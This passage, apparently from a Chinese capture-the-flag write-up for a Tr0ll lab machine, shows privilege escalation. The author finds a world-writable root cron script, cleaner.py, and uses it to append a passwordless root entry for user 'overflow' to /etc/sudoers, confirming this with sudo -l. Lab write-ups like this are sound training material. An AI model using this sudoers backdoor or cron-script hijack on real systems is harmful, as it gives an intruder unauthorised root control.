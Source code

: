 -   当前用户并没有查看`sudo -l `权限



### 提权

-   查找当前系统是否存在自动任务

-   ```shell
    $ cat /etc/crontab
    cat: /etc/crontab: Permission denied
    $ cd /var/www
    $ ls
    html
                                                                                   
    Broadcast Message from root@trol                                               
            (somewhere) at 20:40 ...                                               
                                                                                   
    TIMES UP LOL!                                                                  
                                                                                   
    Connection to 192.168.2.141 closed by remote host.
    Connection to 192.168.2.141 closed.
    
    ```

-   在执行敏感文件查找时遭遇系统退出，根据提示得出并非人为操作。

-   ```shell
    $ ls
    cleaner.py.swp
    $ pwd
    /var/tmp
    $ cat cleaner.py.swp
    crontab for cleaner.py successful
    $ 
    ```

-   使用find命令查找当前系统中存在的cleaner.py文件

-   ```shell
    $ find / -name cleaner.py 2>/dev/null   
    /lib/log/cleaner.py
    $ ls -lhai /lib/log/cleaner.py
    155826 -rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
    $ 
    ```

-   进一步发现当前文件是具有所有用户的写权限。将当前用户添加到`sudoers`文件中 -->`echo "overflow ALL=(ALL:ALL) NOPASSWD:ALL" >>/etc/sudoers`

-   ![image-20230602120401494](https://raw.githubusercontent.com/r0o983/images/main/image-20230602120401494.png)

-   提权成功！

-   ```shell
    $ sudo -l
    sudo: unable to resolve host troll
    Matching Defaults entries for overflow on troll:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    